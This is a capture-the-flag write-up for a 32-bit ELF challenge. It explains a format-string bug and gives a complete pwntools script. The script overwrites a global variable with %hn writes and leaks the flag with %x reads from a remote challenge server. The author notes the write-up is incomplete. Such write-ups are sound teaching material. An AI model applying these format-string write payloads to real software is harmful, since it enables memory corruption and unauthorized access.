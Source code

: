 ## Security Code [445 pts]

**Category:** Pwn
**Solves:** 36

### Description
>Can you print the flag?

## Solution

In this challenge we are provided an 32bit ELF binary which is vulnerable to format string.
First I checked `checksec` command on this file:

```bash
$ checksec --file=securitycode 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   83) Symbols	  No	0
```

As we can se PIE is not enabled and checking these details we can use typical format string techniques to exploit this bug.
Decompiling this binary with IDA results us with following images:


![main](images/1.jpg)
![hello_admin](images/1.jpg)
![auth_admin](images/1.jpg)

As we can see in the images we should change value in `security_code` using format strings to pass the condition,
And get to the `auth_admin` which will lead us to flag.

Our next step is to find reference location of `security_code`. using `readelf`:

```bash
$ readelf -a securitycode | grep security_code
    66: 0804c03c     4 OBJECT  GLOBAL DEFAULT   26 security_code
```

The procedure to exploit is as follow:

- First send A value to program, so it will redirect us into `hello_admin`

- Next We should write value in location of `security_code` to make condition pass. 
New value should be `0xABADCAFE`

- After that we will be leaded to `auth_admin`, But by default it will not show us flag.
Again we should do another `format string` exploit and try to read of memory value of flag.

- There is a limitation on reading value in this step, so we should read 6 string of flag at a time, 
and provide an offset on location we are reading in next hit.

### Writeup is not completed, will be completed with more details

Here is the final exploit code to receive the flag:

```python
from pwn import *

flag = ''

for i in range(30):
    # r = process("./securitycode")
    r = remote('185.97.118.167', 7040)

    # Value to overwrite is: xABADCAFE
    # ABAD: 43949
    # CAFE: 51966

    r.recvuntil("Enter 'A' for admin and 'U' for user.")
    r.sendline('A')
    r.recvuntil('Enter you name:')

    payload = '\x3e\xc0\x04\x08\x3c\xc0\x04\x08%43941x%15$hn%8017x%16$hn'
    r.sendline(payload)

    # Now try to read 6 bytes of the flag
    r.recvuntil('Enter your password:')
    payload = '%{}$x'.format(i)
    r.sendline(payload)

    x = r.recvline()
    x += r.recvline()
    x += r.recvline()
    x = x.replace('The password is ', '').strip()
    # print(x.decode('hex'))
    try:
        flag += bytearray.fromhex(x).decode()[::-1]
    except:
        pass

print(flag)
```
